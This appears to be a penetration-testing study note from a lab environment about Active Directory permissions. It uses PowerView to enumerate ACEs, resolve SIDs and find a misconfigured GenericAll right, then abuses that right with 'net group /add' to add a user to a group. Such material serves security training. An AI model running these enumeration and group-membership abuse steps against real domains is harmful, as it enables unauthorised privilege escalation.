 ```yaml
---
description: >-
  Active Directory is a hierarchical database that contains Active Directory
  Objects. There include: users, computers, applications, printers and shared
  folders
---
```


# Enumerating Object Permissions



## Recap

When a user tries to access an Active Directory Object it sends it's access token, which consists of user identity and permissions. The target object then checks the access token against a list of known permissions (Access Control List). If the user is in the ACL, access is granted.

### Permissions&#x20;

Active Directory has a wealth of permissions, but from an attacker standpoint we are focused on the following:

```
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

## Enumerating ACE's - PowerView

_Access Control Entries_ (ACE) make up the Access Control Lists, they are themselves an Active Directory Object. We can query them with PowerView.

```powershell
PS C:\Tools> Get-ObjectAcl -Identity stephanie

...
ObjectDN               : CN=stephanie,CN=Users,DC=corp,DC=com
ObjectSID              : S-1-5-21-1987370270-658905905-1781884369-1104
ActiveDirectoryRights  : ReadProperty
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : 4c164200-20c0-11d0-a768-00aa006e0529
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 16
SecurityIdentifier     : S-1-5-21-1987370270-658905905-1781884369-553
AceType                : AccessAllowedObject
AceFlags               : None
IsInherited            : False
InheritanceFlags       : None
PropagationFlags       : None
AuditFlags             : None
...
```

## Convert SID's - PowerView

We're interesting in: <mark style="color:orange;">ObejctSID</mark>, <mark style="color:orange;">ActiveDirectoryRights</mark>, & <mark style="color:orange;">SecurityIdentifier</mark>.&#x20;

We can use PowerView to convert this SID to plaintext:

```powershell
PS C:\Tools> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
CORP\stephanie
```

```powershell
PS C:\Tools> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553
CORP\RAS and IAS Servers
```



## Converting All SID's from an Object- PowerView

Above we fetched all SID's for a user, this can be tedious. Instead let's fetch all SID's for a AD Object. We will query "<mark style="color:orange;">Management Department</mark>" with "<mark style="color:orange;">GerericAll</mark>" Permissions.

### Fetch all SID's

```powershell
PS C:\Tools> Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

SecurityIdentifier                            ActiveDirectoryRights
------------------                            ---------------------
S-1-5-21-1987370270-658905905-1781884369-512             GenericAll
S-1-5-21-1987370270-658905905-1781884369-1104            GenericAll
S-1-5-32-548                                             GenericAll
S-1-5-18                                                 GenericAll
S-1-5-21-1987370270-658905905-1781884369-519             GenericAll
```

### Convert All SID's

```powershell
PS C:\Tools> "S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
CORP\Domain Admins
CORP\stephanie
BUILTIN\Account Operators
Local System
CORP\Enterprise Admins
```

<mark style="color:red;">NOTE:</mark> We see that <mark style="color:orange;">stephanie</mark> has "<mark style="color:orange;">GenericAll</mark>" permissions for this Object, a low-level user should not have these types of permissions so it must be a configuration mistake!

<mark style="color:green;">**GenericAll**</mark>**&#x20;**_**is the most powerfull ACL in Active Directory.**_

##

## Exploiting Vulnerability

### Adding New User

Above we discovered a misconfiguration in the "Management Department" AD Object, but there's only one user that has access: Jen. We can use stephanies permissions to add herself to the Group.

```powershell
PS C:\Tools> net group "Management Department" stephanie /add /domain
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.
```

### Verify

We can verify that stephanie was indeed added with PowerView, alternatively net.exe will work.

```powershell
PS C:\Tools> Get-NetGroup "Management Department" | select member

member
------
{CN=jen,CN=Users,DC=corp,DC=com, CN=stephanie,CN=Users,DC=corp,DC=com}
```

### Cleanup

After we're done doing our business we always want to cleanup. Let's delete Stephanie from the Group.

```powershell
PS C:\Tools> net group "Management Department" stephanie /del /domain
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.
```

